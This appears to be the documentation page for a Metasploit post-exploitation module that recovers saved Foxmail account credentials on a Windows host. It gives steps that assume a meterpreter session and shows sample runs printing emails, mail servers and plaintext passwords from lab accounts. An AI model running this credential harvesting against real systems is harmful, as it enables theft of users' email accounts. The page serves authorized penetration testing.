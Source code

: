 ## Verification Steps

  1. Download and install Foxmail package from the official website: https://foxmail.com/win/en.
  2. Use FoxMail to log into a mail server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/foxmail```
  6. If the account file is saved in the system, the email, server, port and plaintext password will be printed.

## Options

 **ACCOUNT_PATH**

  - Specifies the account directory path for Foxmail

## Scenarios
### FoxMail 7.2 on Windows 10 v1903
```
[*] Search account files on C:\Foxmail 7.2\Storage
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email                       Server                   Port  SSL    Password
-----                       ------                   ----  ---    --------
kali-team@qq.com            imap.qq.com              993   true   fjcqkkeqbuweddch
kali-team@qq.com            smtp.qq.com              465   true   fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174103_default_10.0.2.15_host.foxmail_pas_205001.txt
[*] Post module execution completed

```

### FoxMail 7.2 on Windows 10 v1903, with ACCOUNT_PATH specified

```
msf6 post(windows/gather/credentials/foxmail) > set account_path "C:\Foxmail 7.2\Storage\"
account_path => C:\Foxmail 7.2\Storage\
msf6 post(windows/gather/credentials/foxmail) > run
[*] Search account files on C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email              Server       Port  SSL   Password
-----              ------       ----  ---   --------
kali-team@qq.com   imap.qq.com  993   true  fjcqkkeqbuweddch
kali-team@qq.com   smtp.qq.com  465   true  fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174452_default_10.0.2.15_host.foxmail_pas_487470.txt
[*] Post module execution completed

```